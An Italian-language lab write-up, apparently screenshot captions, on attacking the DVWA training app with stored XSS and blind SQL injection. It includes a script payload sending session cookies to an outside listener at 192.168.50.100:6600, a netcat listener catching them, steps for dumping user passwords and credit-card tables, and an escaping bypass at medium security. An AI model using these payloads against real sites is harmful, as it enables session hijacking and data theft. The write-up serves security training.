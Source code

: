 IMMAGINI DA 01 A 04 RELATIVE A XSS STORED

IMMAGINI DA 05 A 14 RELATIVE A SQLi (Blind)

# 01 
Nel XSS stored abbiamo trovato una limitazione, ovvero la lunghezza massima del messaggio, impostata a 50 caratteri
# 02 
Il file è facilmente modificabile, portando il tutto a 500 caratteri, per poter inserire lo script seguente: <script>window.location="http://192.168.50.100:6600/?cookie"+document.cookie</script>
# 03 
Con netcat in modalità listen sulla porta 6600, effettuiamo un accesso sulla pagina xss stored, per poter catturare i cookie di sessione.
# 04 
Se proviamo ad accedere alla pagina xss stored senza il nostro server in ascolto, giustamente, ci dice che non può stabilire una connessione. 
N.B. TUTTO QUESTO FUNZIONA ANCHE CON SECURITY LEVEL IMPOSTATO A MEDIUM.

# 05 
Attraverso la query visibile nel campo ID recuperiamo tutte le tabelle presenti sul server.
# 06
Attraverso la query visibile nel campo ID recuperiamo le colonne della tabella users, ovvero quella che ci interessa per recuperare le password.
# 07
Attraverso la query visibile nel campo ID recuperiamo i record degli attributi user e password. Purtroppo, le password sono cifrate. Successivamente le andremo a decifrare. Continuiamo a cercare altri dati sensibili.
# 08 
Cerchiamo i nomi di tutti i database presenti sul server, per poter trovare materiale sensibile presente in altri database, e non solo in DVWA. La tabella credit_cards nel database OWASP10 ci salta subito all'occhio.
# 09
Attraverso la query visibile nel campo ID recuperiamo il nome delle colonne della tabella credit_cards.
# 10/11 
Troviamo i dati relativi alle carte di credito degli utenti, tra cui numero carta, ccv e data di scadenza. Da qui è facilmente intuibile che tutti i dati all'interno di questo server sono stati compromessi.
# 12
Grazie a john the ripper, decodifichiamo le password precedentemente trovate.
# 13
Possiamo notare che anche la pagina SQLi (blind) è facilmente attaccabile con un attacco xss, usando uno script che facilmente ci permette di avere i cookie di sessione. Basta mettere un valore valido, come ad esempio 1, 
come si può vedere nell'immagine, e successivamente inserire uno script come il seguente : 1<script>alert(document.cookie)</script>
# 14 
Attraverso la query visibile nel campo ID riusciamo a crackare le passworda anche con security level impostato su medium, in quanto, come è possibile vedere dal codice sorgente, $id = mysql_real_escape_string($id) fa la sanitizzazione dei caratteri speciali. 
togliendo le virgolette alte, la query passa e dà in output comunque user e password.
